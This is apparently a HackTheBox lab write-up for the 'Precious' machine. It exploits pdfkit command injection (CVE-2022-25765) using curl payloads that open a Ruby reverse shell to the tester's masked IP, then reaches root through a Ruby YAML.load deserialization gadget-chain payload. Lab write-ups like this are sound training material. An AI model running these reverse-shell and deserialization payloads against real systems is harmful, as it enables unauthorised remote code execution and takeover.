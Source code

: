 ```yaml
---
layout: post
title: Precious
date: 2025-02-9 14:03 +0100
author: lone
description: Precious Easy Linux machine
lqip: /assets/img/precious/precious.webp
category: HackTheBox
tags: htb box writeup
published: true
sitemap: false
---
```


## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```
{: .nolineno }
![Nmap Scan TCP](/assets/img/precious/scantcp.png){: .shadow }

> PORT    STATE  SERVICE
> 22/tcp  open   ssh
> 80/tcp  open   http

```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```
{: .nolineno }
Let's take a look at the website.

![Precious Website](/assets/img/precious/website.png){: .shadow }

It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
{: .nolineno }

pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

```
http://10.10.XX.XX:80/?name=%20`whoami`
```
{: .nolineno }

We URL Encode it before sending it

```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```
{: .nolineno }
And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```
{: .nolineno }

Time to craft ourselves a reverse shell ! 
Let's setup a listenner :

```bash
pwncat-cs -p 1234
```
{: .nolineno }

```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```
{: .nolineno }

We replace whoami by this new payload

```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```
{: .nolineno }

![Reverse Shell](/assets/img/precious/reverseshell.png){: .shadow }

There is a .bundle in the home directory of our user ruby. Let's investigate :

![Ruby Conf file](/assets/img/precious/rubypivottohenry.png){: .shadow }

Clear text password for the user henry ! And with this we got our first flag :

![First Flag](/assets/img/precious/henryflag.png){: .shadow }

## Privilege escalation

```bash
sudo -l

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
{: .nolineno }
So let's see what does the script do

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
{: file="/opt/update_dependencies.rb " }


Seems we have a control on dependencies.yml that is load via YAML.load(). We find a [blogpost](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) about ruby deserialization via YAML.

Let's take and modify a bit the payload :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))' #modify the command here
         method_id: :resolve
```
{: file="/tmp/dependencies.yml " }
Prepare your listenner then use our sudo privilege to run the ruby script in the folder where our payload is.

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
{: .nolineno }
You should catch a root shell and find the root flag !

![Root Flag](../assets/img/precious/rootflag.png){: .shadow }

## TL;DR 
> Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.
{: .prompt-info }
